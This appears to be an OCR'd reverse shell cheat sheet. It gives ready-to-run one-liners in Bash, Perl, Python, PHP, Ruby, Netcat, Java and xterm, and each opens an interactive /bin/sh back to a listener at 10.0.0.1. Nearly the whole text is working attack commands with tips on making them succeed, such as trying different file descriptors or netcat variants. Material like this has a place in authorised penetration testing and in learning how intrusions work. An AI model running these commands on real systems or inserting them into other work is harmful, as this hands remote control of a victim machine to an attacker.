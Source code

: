 ### Bash
Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```

### PERL
Here’s a shorter, feature-free version of the perl-reverse-shell:

```perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

There’s also an alternative PERL revere shell here.

### Python
This was tested under Linux / Python 2.7:

```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

### PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

```php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```

If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

### Ruby

```ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```

### Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```nc -e /bin/sh 10.0.0.1 1234```

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f```

### Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

```xterm -display 10.0.0.1:1```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

```Xnest :1```

You’ll need to authorise the target to connect to you (command also run on your host):

```xhost +targetip```
